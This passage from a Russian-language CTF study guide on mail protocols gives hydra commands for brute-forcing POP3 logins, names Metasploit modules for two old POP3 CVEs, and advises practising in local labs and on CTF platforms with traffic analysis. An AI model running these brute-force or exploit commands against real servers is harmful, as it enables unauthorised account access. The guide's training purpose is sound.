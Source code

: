 #### Брутфорс POP3
```bash
hydra -l USERNAME -P /path/to/passwords.txt -f <IP> pop3 -V
hydra -S -v -l USERNAME -P /path/to/passwords.txt -s 995 -f <IP> pop3 -V
```

---

#### Уязвимости POP3
Примеры:
- **Seattle Lab Mail 5.5 [CVE-2003-0264]**
  ```bash
  msf > use exploit/windows/pop3/seattlelab_pass
  ```
- **Cyrus – Gentoo 2006.0 Linux 2.6 [CVE-2006-2502]**
  ```bash
  msf > use exploit/linux/pop3/cyrus_pop3d_popsubfolders
  ```


### Практика

1. **Настройка тестового окружения:**
   - Поднять локальный SMTP, POP3, IMAP-серверы (например, с использованием Docker).
   - Настроить уязвимости (открытые релееры, отсутствие SSL/TLS).

2. **Решение задач:**
   - Начать с анализа сетевого трафика.
   - Понять структуру команд протоколов.
   - Использовать команды протоколов для взаимодействия с сервером (например, `EXAMINE` и `FETCH` в IMAP).

3. **Тренировка на CTF-платформах:**
   - Попробовать задачи на HackTheBox, TryHackMe, CTFLearn, OverTheWire.
   - Решить сценарии, связанные с почтовыми протоколами.

### Пример разбора задачи

1. **Условие:** Имеется дамп трафика, перехваченного с почтового сервера. Найти флаг.
2. **Решение:**
   - Открыть дамп в Wireshark, отфильтровать трафик по порту (25, 110, 143).
   - Декодировать Base64 содержимое письма.
   - Найти флаг в теле или заголовках сообщения.

---

## Заключение

Почтовые протоколы остаются важным элементом инфраструктуры, а их уязвимости — частой целью атак. Знание тонкостей работы SMTP, POP3 и IMAP, а также их уязвимостей, позволяет не только улучшить безопасность систем, но и успешно решать задачи на CTF. Постоянная практика, анализ трафика и изучение реальных уязвимостей помогут углубить знания и подготовиться к соревнованиям.

---
